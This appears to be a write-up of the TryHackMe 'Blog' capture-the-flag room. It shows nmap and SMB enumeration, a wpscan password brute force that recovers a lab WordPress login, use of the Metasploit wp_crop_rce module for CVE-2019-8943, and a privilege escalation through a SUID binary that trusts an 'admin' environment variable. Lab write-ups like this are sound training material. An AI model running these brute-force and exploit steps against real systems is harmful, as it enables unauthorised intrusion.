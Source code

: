 # 35 - Anonymous (ltrace / strace) to enumerate SUID binaries

Room Link --> [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nmap -Pn -n -T5 -p- -sS -vv 10.10.37.166

PORT    STATE SERVICE     REASON  VERSION
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
{% endcode %}

_In order to get the blog to work with AWS, you'll need to add "blog.thm" to your /etc/hosts file._

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking the Page source code we get 2 usernames : Billy and his Mom.

```
bjoel
kwheel
```

#### SMB enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
smbmap -H blog.thm -u 'anonymous' -p 'anonymous'

print$       NO ACCESS	  Printer Drivers
BillySMB     READ, WRITE  Billy's local SMB Share
IPC$         NO ACCESS	  IPC Service (blog server (Samba, Ubuntu))

# we have RW access to the "BillySMB" share.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The images from the SMB file share were deadends, so since we have 2 usernames we can use wpscan to bruteforce for their login passwords.

#### wpscan

{% code overflow="wrap" lineNumbers="true" %}
```bash
wpscan --url http://blog.thm/wp-login.php --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```
{% endcode %}

the WPScan was able to extract the credentials for the user kwheel. It was cutiepie1.

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-fSRqKS33MB0/YKpXlw6DvqI/AAAAAAAAwBQ/8QSDhRQU65UJ8Eacc_bn5fMs_ovxxMg7gCLcBGAsYHQ/s16000/8.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

`kwheel : cutiepie1` .

Login to  wordpress. `version 5.0` .

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*rf2EDb3asLwEe5Fp4OqnmQ.png" alt="" height="82" width="700"><figcaption></figcaption></figure>

There is an [exploit](https://www.exploit-db.com/exploits/49512) for uploading images for WordPress Core 5.0 (CVE-2019–8943). we also have a Metasploit Module for this.

`use exploit/multi/http/wp_crop_rce`&#x20;

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

`find / -perm -u=s -type f 2>/dev/null` .

<figure><img src="https://i0.wp.com/1.bp.blogspot.com/-9PLookrmx8E/YKpX7cj9jFI/AAAAAAAAwBw/c3_Wk84j9EgjlSvl15M80WrmYu0nLkkzwCLcBGAsYHQ/s16000/12.png?w=640&#x26;ssl=1" alt=""><figcaption></figcaption></figure>

Running `strings /usr/sbin/checker` - and we see it is executing `/bin/bash`.&#x20;

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Running the file informs us that we are not admin users.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:217/1*W8OiYcQCx1PqN2r6GHsdqg.png" alt="" height="71" width="316"><figcaption></figcaption></figure>

We can investigate the binary more by using either **strace** or **ltrace** as both is installed on the host.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:349/1*JYG2x8FV2Vv_iMG56RvN0Q.png" alt="" height="82" width="508"><figcaption></figcaption></figure>

Based on the ltrace output it appears that the only check the application does is to check an environment variable called admin for a value, lets test this theory by adding a value to the admin environmental variable

> export admin=1

Now lets launch the ltrace process to check if we are successful.

> ltrace /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:343/1*71tMuxVEaDu6aVyde052Cw.png" alt="" height="64" width="499"><figcaption></figcaption></figure>

We can now see that the “admin” environment variable has a value of 1.

> /usr/sbin/checker

<figure><img src="https://miro.medium.com/v2/resize:fit:312/1*pSzfFiJddbjxEsF6zANgaA.png" alt="" height="103" width="454"><figcaption></figcaption></figure>

Done!

